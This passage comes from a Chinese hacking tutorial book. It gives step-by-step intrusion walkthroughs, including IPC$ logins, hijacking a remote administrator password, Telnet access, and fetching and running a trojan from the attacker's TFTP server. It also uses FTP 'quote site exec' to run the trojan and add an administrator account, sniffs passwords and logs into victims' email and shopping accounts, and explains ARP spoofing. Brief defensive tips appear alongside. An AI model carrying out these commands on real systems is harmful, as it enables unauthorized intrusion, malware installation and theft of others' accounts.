

#### 1.2.4 IPC$漏洞和AT命令防御

防御IPC$漏洞很简单，只要关闭了这些默认共享，那么IPC$漏洞就不存在了。关闭系统的默认共享，方法有好多，我这里介绍两个比较好的方法。



### 1、IPC$和默认共享关闭

##### 方法1：批处理删除共享

首先要确认你的主机共享了哪些磁盘，我们可以通过在CMD中输入命令：net share来查询，如图38。

在桌面上新建一个文本，输入以下内容，然后另存为1.bat。

```
Net share ipc$ /delete
Net share c$ /delete
Net share d$ /delete
Net share e$ /delete
Net share f$ /delete
Net share g$ /delete
Net share admin$ /delete
```

先在本地运行一下，再把这个 1.bat 文件放到系统的启动项里，以后计算机每次重启后，都会执行这个批处理文件，从而达到删除共享的目的。

#### 方法 2：修改注册表

关闭默认共享（C$、D$、E$、F$、G$、ADMIN$）

打开注册表，在运行里输入：regedit，找到“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Lanmanserver\parameters”注册表项。再双击右框中的“AutoShareServer”键（如果没有这个，新建一个），将键值改为“0”即可，如图 39。



接着再双击“AutoShareWks”键，也将它的键值改为“0”，如图 40。



##### 关闭默认 IPC$ 连接

打开注册表，在运行里输入：regedit，找到“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa”注册表项，双击右框中“restrictanonymous”键值，注意这里不是改成“0”，而是改为“1”，如图 41。



其实很多优化软件，比如：超级兔子、优化大师等，都可以关闭系统默认共享和 IPC$ 空连接，它们也是通过修改注册表来关闭的。但是我建议大家自己动手修改，因为学习黑客技术尽量要了解它的原理，不要太注重在工具上。

#### 2、AT 命令计划任务关闭

AT 命令也是系统默认的，它基于服务里的“Task Scheduler”，只要关闭这个服务，我们就能防止 AT 命令的使用了。右击“我的电脑”，选择“管理”，再打开“服务”选项，双击“Task Scheduler”服务进行关闭即可，如图 42。



## 1.3 利用计算机管理进行的渗透前夜

通过 IPC$ 连接到目标主机，再利用计算机管理连接目标主机，可以实现简单入侵远程计算机，并查看共享文件、日志文件和修改服务。但是，有一些功能还是不能实现，比如查看对方的系统配置、关闭对方计算机等，因为权限不够大。如何解决呢？很简单，只要我们在本机创建一个和目标主机一模一样的用户名和密码，本机先登录，再利用计算机管理连接目标主机，那么里面所有的功能就都能使用了，那就没有限制的了。

```
C:\>net use \192.168.1.20\ipc$ /u:"administrator" "123456"
The command completed successfully.
```


### 1.3.1 计算机管理定义

> 计算机管理就是将多个系统管理工具合并到了一个控制台树中，使您可以轻松地访问特定计算机的管理属性和工具。

计算机管理功能如下：

- 监视系统事件，如登录时间和应用程序错误；
- 创建和管理共享；
- 查看或修改已连接到本地或远程计算机的用户的列表；
- 启动和停止系统服务，如任务计划程序和后台打印程序；
- 设置存储设备的属性；
- 查看设备的配置以及添加新的设备驱动程序；
- 管理服务器应用程序和服务，如域名系统（DNS）服务或动态主机配置协议（DHCP）服务。


### 1.3.2 远程连接对方主机

方法1：通过 IPC$ 连接，再利用计算机管理入侵。

首先，我们通过 IPC$ 连接到对方的计算机，方法为打开 CMD 命令提示符，然后输入命令：net use \192.168.1.20\ipc$ /u:"administrator" "123456"，可以看到连接成功，如图 43。


此时，右键单击“我的电脑”，选择“管理”项，进入计算机管理工具。再右击“计算机管理”，选择“连接其他计算机”，在弹出的选择计算机框中输入 IP 地址：192.168.1.20，然后确定，如图 44。这样，就成功连接到 192.168.1.20 这台计算机了，如图 45。


在这里我们可以查看 192.168.1.20 这台计算机的系统日志，并停用共享文件、启动或停止系统服务等，如图 46、图 47、图 48。但是，却查看不了对方设备管理、本地用户管理等一些选项，因为权限不够，如图 49。

这样就没办法了吗？下面我们用第二个方法来实现这些功能。

## 方法 2：本机建立和目标主机一样的用户名和密码，并从本机登录，再利用计算机管理入侵。

首先在本机创建和 192.168.1.20 计算机一样的用户名和密码，方法为在 CMD 命令提示符中输入命令：net user administrator "123456"，如图 50。

当这些准备工作做完之后，此时先注销系统，然后使用修改好的密码登录系统。重新进入系统后，接着右击“我的电脑”并选择“管理”，进入计算机管理工具，如图 51。再右击“计算机管理”，选择“连接其他计算机”，在弹出的选择计算机框中输入 IP 地址：192.168.1.20 并确定。

现在我们可以看到，在图 44 中的“本地用户和管理”前的红叉不见了，那么说明我们已经没有任何限制了，此时即可修改管理员的密码了，如图 52，成功修改了对方的 administrator 密码。

当然，这里你也可以新建用户名，就像操作本地主机一样。我们再来看看能不能查询对方的设备管理器，双击“设备管理器”，如图 53。

我们也可以查看对方的系统配置和关闭对方计算机。右击“计算机管理”，选择“属性”，现在就能看到对方的系统配置了，如图 54。

配置一般，来试试关闭对方机器。点“属性”里面的“高级”，再点击最下面的“设置”，弹出“启动和故障恢复”设置框，最下面就有一个关机的按钮了，如图 55。

最后我们再来启用 192.168.1.20 的 Telnet 服务，如图 56，成功启动 Telnet 服务。下面我们看看如何通过 Telnet 来入侵。

## 1.4 非 GUI 界面下的终端入侵

在图形界面下，我们通常会使用木马来进行远程控制，这样很方便我们管理。但是，真正的黑客却往往不屑于使用这些 GUI 工具，所以本节就给大家介绍如何在 CMD 下实现远程入侵和控制。

Telnet 的应用不仅方便了我们进行远程登录，也给 hacker 们提供了又一种入侵手段和后门。但无论如何，在你尽情享受 Telnet 所带给你便捷的同时，是否真正的了解过 Telnet 呢？本节会给你介绍所有关于 Telnet 下入侵的技巧和方略！

### 1.4.1 Telnet 服务及其启动方法一窥

Telnet 是常用的远程控制 Web 服务器的方法，它最初是由 ARPANET 开发的，现在主要用于 Internet 会话，其基本功能是允许用户登录并进入远程主机系统。

Telnet 协议，是 TCP/IP 协议族中的一员，是 Internet 远程登录服务的标准协议和主要方式，它为用户提供了在本地计算机上完成远程主机工作的能力。

起初，它只是让用户的本地计算机与远程计算机连接，从而成为远程主机的一个终端。在终端使用者的电脑上使用 Telnet 程序连接到服务器，终端使用者可以在 Telnet 程序中输入命令，这些命令会在服务器上运行，就像直接在服务器的控制台上输入一样，通过本地即可控制服务器。

要开始一个 Telnet 会话，必须输入用户名和密码来登录服务器。Telnet 服务在 Windows 系统中默认为关闭，我们需要通过如下手法才能打开。

如果想在 WindowsXP 中打开 Telnet 服务，方法是：在“我的电脑”图标上面按鼠标右键选择“计算机管理”，在弹出的“计算机管理”窗口中，找到“服务”列表，此时在右侧选中"Telnet"，如图 57。

双击"Telnet"选项则可以弹出属性设置窗口，此时选中“启动类型”为“自动”即可启动 Telnet 服务，如图 58。

### 1.4.2 如何使用 Telnet 命令钻进电脑

当 Telnet 服务启动后，系统会在本机开放一个 23 端口，打开 CMD 命令提示符窗口，然后输入命令：Telnet 192.168.1.20，回车后可以看到连接提示信息，如图 59。

此时选择 Y，然后输入密码，就会返回对方的 CMDSHELL 了，如图 60。

接下去我们就要想办法上传木马了。

### 1.4.3 CMD 下面的 TFTP 上传

在 CMD 命令提示符中进行远程终端操作，往往会使用到文件传输功能。在 CMD 下面进行文件传输，首推 TFTP（其威望不低于 Windows 下面的 SERV-U），其是一个系统协议，属于 UDP 连接方式，它的服务端口是 69，在系统默认情况下是打开的。

在使用 TFTP 上传时，我们首先要把本机架设成一台 TFTP 服务器，把我们需要上传的木马放到 TFTP 工具目录下，如图 61。

此时，再来运行"tftpd32.exe"这款 TFTP 服务器程序，如图 62。

不需要多余的设置，一台 TFTP 服务器就建立好了。同时，程序会打开本机 69 端口进行监听，等待客户端的连接，如图 63。

通过上面的操作我们可以知道，TFTP 的操作非常简单，几乎不需要经过其他的任何设置。现在我们再回到 Telnet 的 CMD 窗口中去，准备将木马文件 10.exe 上传到对方 D 盘。

输入命令：tftp -i 192.168.1.15 get 10.exe，如图 64。192.168.1.15 是笔者的主机 IP，这条命令的意思是说：从 192.168.1.15 上下载 10.exe 文件。

从 CMD 返回的信息来看，上传成功了。再输入命令：dir，可以检测是否真的上传成功了，如图 65。

可以看到，木马文件 10.exe 已经在对方的 D 盘里了。我们再回到本机的 TFTP 服务器看看，又有什么信息反馈回来，如图 66。

## 第一章 黑客踩点和主动攻击

如果你想要下载 192.168.1.20 上 D 盘中的某个文件，也非常简单，只要在 Telnet 窗口中输入命令：tftp -i 192.168.1.15 put *.* , 就可以了。不过，不建议上传或下载超过 1MB 的文件，因为这样通常会出现数据丢失或超时等现象。

最后，运行一下木马文件 10.exe，直接输入命令：10.exe 并回车，就可以成功运行了，如图 67。

回到我们的木马控制端来，看看能否成功上线，如图 68，可以看到木马成功上线了。

### 1.4.4 Telnet 防御之终极红客

因为 Telnet 入侵危害非常大，可以通过木马完全控制我们的电脑，所以这就要求我们在日常防御中做到尽量不要开启 Telnet 服务，关闭系统的 TFTP 协议 69 端口。

关闭方法是，使用记事本打开 C:\WINDOWS\system32\drivers\etc 目录下的 services 文件，找到 TFTP，将后面的 69 端口改成 0，最后保存就可以了。这样就算别人登录到了你的 Telnet，也无法通过 TFTP 来上传文件，如图 69。

## 1.5 FTP 入侵也精彩

> FTP (File Transfer Protocol) 是文件传输协议的简称，用于 Internet 上控制文件的双向传输。同时，它也是一个应用程序 (Application)，用户可以通过它把自己的 PC 机与世界各地所有运行 FTP 协议的服务器相连，访问服务器上的大量程序和信息。

这里以下传文件为例，当你启动 FTP 客户端程序从远程计算机拷贝文件时，你事实上启动了两个程序：

> 一个是本地主机上的 FTP 客户程序：它向 FTP 服务器提出拷贝文件的请求；另一个是远程计算机上的 FTP 服务器程序，它响应你的请求，并把你指定的文件传送到你的计算机中。

FTP 采用“客户机/服务器”方式，用户端要在自己的本地计算机上安装 FTP 客户程序。FTP 客户程序有字符界面和图形界面两种：字符界面的 FTP，命令复杂、繁多；图形界面的 FTP 客户程序，操作上要简洁方便的多。

### 1.5.1 FTP 弱口令光速入侵

支持 FTP 协议的服务器就是 FTP 服务器，它可以提供上传和下载文件。一般来说此程序本没有太多漏洞，但往往由于使用者设置不当，而产生了非常多的安全隐患漏洞。

比如，FTP 用户通常就存在弱口令漏洞，就像我们在前面的章节中介绍一样，扫描某台计算机 (比如 IP 地址为 192.168.1.20)，结果很快得到了用户名：user，密码：123456，就是因为这些疏忽，往往导致我们的服务器沦陷。

当得到 FTP 权限的账户和密码之后，此时我们打开 CMD 命令提示符窗口，输入 FTP 登录命令：ftp 192.168.1.20，此时提示我们输入账户和密码。依次输入获得的用户名：user 和密码：123456，即可顺利连接上远程 FTP 服务器，如图 70。

登录成功后我们可以从信息得知对方使用的 FTP 系统是 Serv-U 6.4。此时如果要查看一下这个 FTP 上有哪些文件，可以输入 FTP 命令：ls，如图 71。

没有发现特别的文件，现在我们尝试上传木马文件。在上传木马文件之前首先要确认一下当前 FTP 根目录在哪个盘，此时可以输入命令：pwd，如图 72。

可以看到当前目录在 E 盘，此时我们还需要确认本机的所在目录在哪个盘。输入命令：lcd，可以看到本机的当前目录，如图 73。

接下来我们就可以上传木马文件 10.exe，输入命令：put 10.exe，如图 74。

返回信息提示上传成功，再次输入 ls 命令，查看文件是否上传成功，如图 75。

可以看到木马文件已经上传到对方 FTP 目录下了，下面我们将面临一个问题，怎么来运行木马呢？

其实，FTP 有一个执行系统命令的命令，我们就直接用这个命令来运行木马。输入命令：quote site exec"e:\10.exe"，回车执行命令，成功后返回信息，如图 76。

回到我们的木马客户端看看，可以看到肉鸡正常上线（笔者这里使用的是 PCSHARE 远程控制软件进行控制），如图 77。

### 1.5.2 小议 FTP 提权

在前面一节，我们使用到了"quote site exec"这个命令，其实这条命令不仅是执行了一个程序那么简单，更重要的是它还是一个提权的命令。

我们可以利用这个命令来添加一个管理员用户，首先输入 FTP 命令：quote site exec"net user xta 123456 /add"，执行成功后就添加了一名用户。

此时再输入 FTP 命令：quote site exec "net localgroup administrators xta /add"，将这个用户名加入到系统管理组去，如图 78，成功执行。

在得到了管理员用户之后，我们就可以利用 3389 远程终端进行远程控制了。这里要求对方开了 3389 远程终端服务，如果对方没有开启这个服务，则我们可以上传一个 3389 远程终端开启工具，然后执行，最后进行 3389 远程终端的连接操作。

## 第一章 黑客踩点和主动攻击

## 1.6 小结

本章我们学习了如何扫描端口，以及通过扫描出来后的漏洞进行 IPC$入侵，并介绍了几种上传木马的方法。通过这些学习，我们应该加强日常电脑使用中的安全意识，比如要经常打系统补丁，可以使用 360 安全卫士等工具进行升级，如图 79。

同时也要安装一些杀毒软件，笔者这里推荐使用免费升级病毒库的德国小红伞，如图 80。

另外，就是要为你的管理员用户设置一个不容易被破解的密码。相信通过这些基础的安全设置，你的计算机安全将会得到大大的提高!

## 第二章

## 网络嗅探与 ARP 欺骗

在黑客技术中，网络嗅探和 ARP 欺骗这两项技术是非常重要的，它们不仅能够使用在局域网中，而且在外网也可以使用。举个简单的例子，比如一台服务器是独立的外网 IP 地址：60.190.157.177，网关：60.190.157.1，那么就可以通过网络嗅探或 ARP 欺骗监听到 60.190.157.1-60.190.157.254 这个 IP 段里的所有服务器，这种方式通常被黑客们称为“嗅段”(区别于“嗅探”)。

## 2.1 嗅探原理与应用详解

人们谈到黑客攻击，一般所指的都是以主动方式进行的，例如利用漏洞或者猜测系统密码等对系统进行攻击。其实还有一类危害非常大的被动攻击方式往往为大家所忽视，那就是利用 Sniffer 进行嗅探攻击。

### 2.1.1 嗅探工具及其原理剖析

> Sniffer，中文可以翻译为嗅探，是一种威胁性极大的被动攻击方式。Sniffer 程序是一种利用以太网的特性把网络适配器 (NIC，一般为以太网卡) 置为混杂模式状态的工具，一旦网卡设置为这种模式，它就能接收传输在网络上的每一个信息包。这样，就可以分析各种信息包并描述出网络的结构和使用的机器。这成为黑客们常用的扩大战果的方法，用来夺取其它主机的控制权。

使用这种工具，可以监视网络的状态、数据流动情况以及网络上传输的信息。当信息以明文的形式在网络上传输时，便可以使用网络监听的方式来进行攻击。将网络接口设置在监听模式，便可以将网上传输的源源不断的信息截获。黑客们常常用它来截获用户的口令，据说某个骨干网络的路由器曾经被黑客攻入，并嗅探到大量的用户口令。

### 2.1.2 Sniffer 嗅探器实战攻击真把式

在嗅探之前，首先我们要选择一款嗅探器，这里我选用一款国外的密码嗅探工具 Ace Password Sniffer，这是一个非常强大的密码探测和监控工具，它可以在你的本机或局域网内进行探测，并捕捉通过 FTP、POP3、HTTP、SMTP、Telnet 及其它方式传输的密码。

所谓局域网嗅探，并不是说只要在本机运行这个软件就能嗅探到局域网内其它主机的密码信息，而是只有在本机运行时才能嗅探到本机访问网络的一些密码信息。如果你要嗅探局域网内的其它主机访问网络的信息，在不建立 ARP 欺骗的同时，我们只能通过让该软件在这个局域网的网关上运行，才能成功嗅探到以这个网关为出口的所有局域网内的主机访问外网的密码信息。这两者是有区别的，希望大家不要混淆。

下面我们将这个软件放到网关服务器上运行，打开"Ace Password Sniffer"，程序界面十分的简洁，如图 1。

不同计算机使用的网卡可能都不一样，大家根据自己的情况进行选择。

所有工作准备就绪后，我们点击主界面左上角的绿色三角按钮就可以开始嗅探了。整个嗅探的过程是漫长的，大家要有耐心。功夫不负有心人，经过漫长的等待，结果终于出来了，如图 3。

从图 3 中我们可以看出，已经成功嗅探到了 7 条信息，都是从 192.168.1.15 这台主机向外访问的，它们分别是 1 条 FTP 信息、1 条 telnet 信息、1 条 POP3 信息、1 条 SMTP 信息、3 条 HTTP 信息。

我们来验证一下这些密码信息是不是正确的。先来看看这个 FTP 吧，打开 CMD，输入命令：ftp 192.168.1.20，用户名：user，密码：123456，如图 4，登录成功。

再来看看 telnet，在 CMD 中输入命令：telnet 192.168.1.20，执行结果如图 5，然后用 ipconfig/all 命令查看一下 IP 信息，如图 6。

再来看看 POP3 和 SMTP 信息，大家都知道，这是与 EMAIL 相关的。SMTP 是邮件传送服务器，我们不用看，主要来看这个 POP3，它的 IP 地址是：220.181.15.128。直接在 IE 浏览器的地址栏里输入 220.181.15.128 并回车，结果访问不了，如图 7。

这说明这个邮件系统它的 WEB 登录和 POP3 不在同一台服务器上。那么就没有办法了吗？非也！其实我们可以通过在 CMD 下来登录这个邮箱。打开 CMD 命令提示符，输入命令：telnet 220.181.15.128 110 并回车；再输入命令：user xtaflf0348088

## 第二章 网络嗅探与 ARP 欺骗

并回车；再输入命令：pass 6*******并回车，显示登录成功，有 135 封信。再输入一个命令：list 并回车，就可以列出所有的信件，如图 8。

前面的数字表示信的编号，后面的数字表示信的大小容量。如果你想打开 10 号信看看，其实也非常的简单，输入命令：retr 10 并回车即可，如图 9。

不过非常遗憾的是，信的内容是加密的，通过图 9 中的"to:xtaflf0348088@126.com"信息，我们就可以得知，这是一个 126.com 的信箱。好，用 IE 访问 www.126.com，输入用户名和密码进行登录，看看是不是成功了，如图 10。

其实还有一个办法可以让我们知道 220.181.15.128 这个 IP 所对应的域名。大家都知道，网上有提供 IP 查询域名的服务网站，我们用 IE 访问：http://www.linkwan.com/gb/broadmeter/VisitorInfo/QueryIP.asp，然后输入要查询的 IP 地址：220.181.15.128，接着点“查询”按钮，就能知道它所对应的域名了，如图 11。

但是这个方法并不是所有的 IP 都能查询出它所对应的域名的，如果查不出来的话，建议大家在 CMD 下登录邮件系统，通过分析邮件来得知他的域名。

再来看嗅探到的 HTTP 信息，IP 地址为：203.81.26.200，我直接 COPY 这个 IP 在 IE 里访问，能够打开，我们输入嗅探到的用户名：blackmask，密码：6********，如图 12。

最后点击“登录”，成功以这个用户身份登录当当网了，如图 13。

嗅探到的最后两个 HTTP 的 IP 地址没什么用，后面跟着的邮箱地址应该是一个验证信息，我们就不用去管它了。

## 2.2 ARP 欺骗技术一日游

ARP 欺骗是现今在局域网中最流行而且最有效的一种攻击方式之一，它不仅能让整个局域网在瞬间瘫痪，而且可以让你的局域网从此以后再也没有秘密。如果当你的网络中出现大量 ARP 请求广播包时，你就要当心了，因为这是有人在对你网段内的所有主机进行 ARP 扫描。大量的 ARP 请求广播可能会占用网络带宽资源，一般来说 ARP 扫描往往是进行 ARP 攻击的前奏。

### 2.2.1 ARP 和 ARP 欺骗原理

> ARP 的英文全名是 Address Resolution Protocol，它是一个地址解析协议，是一种将 IP 地址转化成物理地址的协议。

从 IP 地址到物理地址的映像有两种方式：表格方式和非表格方式。ARP 具体说来就是将网络层（也就是相当于 OSI 的第三层）地址解析为数据链路层（也就是相当于 OSI 的第二层）的物理地址（注：此处物理地址并不一定指 MAC 地址）。

假如某机器 A 要向主机 B 发送报文时，会事先查询本地的 ARP 缓存表，找到 B 的 IP 地址所对应的 MAC 地址后，就会进行数据传输。如果未找到，则以广播的方式发送一个 ARP 请求报文（同时这个报文携带主机 A 的 IP 地址和 MAC 地址），请求 B 主机的 IP 地址和回答 MAC 地址。

网段中所有主机（包括 B）都收到 ARP 请求，但只有主机 B 识别自己的 IP 地址，于是向 A 主机发回一个 ARP 响应报文，其中就包含有 B 的 MAC 地址。

A 接收到 B 的应答后，就会更新本地的 ARP 缓存，接着使用这个 MAC 地址发送数据（由网卡附加 MAC 地址）。因此，本地高速缓存的这个 ARP 表是本地网络流通的基础，而且这个缓存是动态的。

假设一个网络环境中，网内有三台主机，分别为主机 A、B、C，主机详细信息如下：

- A 的地址为：IP：192.168.3.1 MAC：AA-AA-AA-AA-AA-AA
- B 的地址为：IP：192.168.3.100 MAC：BB-BB-BB-BB-BB-BB
- C 的地址为：IP：192.168.3.102 MAC：CC-CC-CC-CC-CC-CC

正常情况下，A 和 C 之间进行通讯，但是此时 B 向 A 发送一个自己伪造的 ARP 应答，而这个应答中的数据为发送方 IP 地址是 192.168.3.102（C 的 IP 地址），MAC 地址是 BB-BB-BB-BB-BB-BB（C 的 MAC 地址本来应该是 CC-CC-CC-CC-CC-CC，这里被伪造了）。

当 A 接收到 B 伪造的 ARP 应答，就会更新本地的 ARP 缓存（A 被欺骗了），这时 B 就伪装成 C 了。同时，B 同样向 C 发送一个 ARP 应答，应答包中发送方 IP 地址是 192.168.3.1（A 的 IP 地址），MAC 地址是 BB-BB-BB-BB-BB-BB（A 的 MAC 地址本来应该 AA-AA-AA-AA-AA-AA）。当 C 收到 B 伪造的 ARP 应答，也会更新本地 ARP 缓存（C 也被欺骗了），这时 B 就伪装成了 A。

这样，主机 A 和 C 都被主机 B 欺骗，A 和 C 之间通讯的数据都经过了 B。主机 B 完全可以知道他们之间传输的是什么信息，这就是典型的 ARP 欺骗过程。

## 第二章 网络嗅探与 ARP 欺骗

### 2.2.2 ARP 欺骗种类

> ARP 欺骗是黑客常用的攻击手段之一，一般分为两种，一种是对路由器 ARP 表的欺骗，另一种是对内网 PC 的网关欺骗。

第一种 ARP 欺骗的原理是——截获网关数据。它通知路由器一系列错误的内网 MAC 地址，并按照一定的频率不断进行，使真实的地址信息无法通过更新保存在路由器中，结果路由器的所有数据只能发送给错误的 MAC 地址，造成正常 PC 无法收到信息。

第二种 ARP 欺骗的原理是——伪造网关。它的原理是建立假网关，让被它欺骗的 PC 向假网关发数据，而不是通过正常的路由器途径上网。在 PC 看来，就是上不了网了。

